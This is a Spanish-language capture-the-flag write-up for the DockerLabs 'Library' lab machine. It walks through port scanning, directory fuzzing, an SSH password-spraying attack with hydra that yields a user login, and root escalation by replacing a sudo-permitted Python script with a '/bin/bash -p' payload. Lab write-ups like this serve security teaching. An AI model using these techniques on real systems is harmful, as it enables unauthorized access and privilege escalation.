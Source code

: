 # 🖥️ Writeup - Library 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip library.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh library.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-31 17:15 CET
Nmap scan report for 172.17.0.2
Host is up (0.000039s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f9:f6:fc:f7:f8:4d:d4:74:51:4c:88:23:54:a0:b3:af (ECDSA)
|_  256 fd:5b:01:b6:d2:18:ae:a3:6f:26:b2:3c:00:e5:12:c1 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.75 seconds
```

Se detectan los puertos `22` (SSH) y `80` (HTTP) abiertos.

Accedemos al puerto `80` y nos encontramos con la página de `Apache2` por defecto.

# GOBUSTER

Realizamos `fuzzing` de directorios para intentar localizar directorios o archivos ocultos.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              bak,sh,html,zip,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 26]
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
Progress: 1387269 / 1543899 (89.85%)
```

Encontramos un directorio `/javascript` y un archivo `index.php`.
Accedemos al archivo `index.php` y encontramos una cadena de texto:

![alt text](../../images/indexphp.png)

Esta cadena parece ser una contraseña, pero en este punto desconocemos los usuarios existentes en el sistema.

Mi primer pensamiento fue intentar explotar una vulnerabilidad `LFI` (Local File Inclusion) en `index.php` para leer el archivo `/etc/passwd` y así obtener una lista de usuarios. 
Sin embargo, no encontré ningún parámetro vulnerable.

# FUERZA BRUTA

Vamos a realizar un ataque de `user spraying` contra el servicio ` SSH`, utilizando como contraseña cadena de texto que hemos encontrado antes: `JIFGHDS87GYDFIGD`.

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD -t 64 ssh://172.17.0.2
```

Info:
```
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-31 17:23:40
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 8295455 login tries (l:8295455/p:1), ~129617 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlos   password: JIFGHDS87GYDFIGD
```

Descubrimos que la contraseña es válida para el usuario `carlos`.

Utilizamos estas credenciales para autenticarnos exitosamente en el sistema a través de `SSH`.

```bash
ssh carlos@172.17.0.2
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo` y `SUID`.

```bash
sudo -l
```

Info:
```
Matching Defaults entries for carlos on 34c374d12f02:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User carlos may run the following commands on 34c374d12f02:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

Vemos que podemos ejecutar el archivo `script.py`, situado en el directorio `/opt`, con privilegios de `root`.
Al verificar los permisos del archivo, observamos que no tenemos permisos de escritura sobre él. 

Sin embargo, en el directorio `/opt` tenemos permisos para eliminar el `script.py` original y crear un archivo nuevo con el mismo nombre, que contenga nuestro `payload` de escalada de privilegios.

```bash
rm script.py
nano script.py
```

Código:
```
import os
os.system('/bin/bash -p')
```

Tras crear y guardar nuestro `script` malicioso, finalmente lo ejecutamos con privilegios de `root`.

```bash
sudo /usr/bin/python3 /opt/script.py
```

Info:
```
root@34c374d12f02:/opt# whoami
root
root@34c374d12f02:/opt#
```

Ya somos root!